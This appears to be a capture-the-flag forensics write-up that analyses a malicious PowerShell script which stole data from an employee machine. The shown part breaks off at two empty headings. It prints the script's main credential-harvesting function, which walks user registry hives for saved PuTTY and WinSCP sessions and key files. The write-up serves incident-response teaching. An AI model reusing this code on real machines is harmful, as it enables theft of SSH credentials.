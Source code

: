### First Insights

At this point in the investigation we now know that we had a malicious script execute on an employee's machine. Now that we have discovered the script, we need to examine the code being executed to determine what data the malware stole from the machine and sent to the LP. This will require a full breakdown of the malware and examination of files that the script accessed. This task attached an artifacts.zip, which contained multiple PuTTY and WinSCP keys and the employee's NTUSER.dat file. With these given files, along with the malware script, we have a good route to determine the extent of the breach.

### Malware Examination

Our first step to find the comprimised OOPS account is to examine the malware. The entire script is included in this task's directory, but we will be using snippits of it.
After the inital function declarations, we see that there is a global log that is being sent back to the listning post and the Invoke-SessionGopher function is called. We will start there.

```
function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"


  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information.
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)

    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList

      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)

      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives

  Write-Host "Final log:"
  $global:log
```
This function acts as the "main" of the script. It gives away what data the malware is attempting to dig in the declarations of *$PuTTYPathEnding* and *$WinSCPPathEnding*. These tell us that the malware is attempting to look for stored data about the machine's PuTTY and WinSCP sessions. The malware then looks in the Windows User Registry for all past and current users on the machine. After collecting all of the users, the script calls two methods, *ProcessWinSCPLocal* and *ProcessPuTTYLocal*. This confirms that the malware is digging for ssh credentials. We will now look at the *ProcessPuTTYLocal* method.

### Understand Windows Registry
### Determine Comprimise
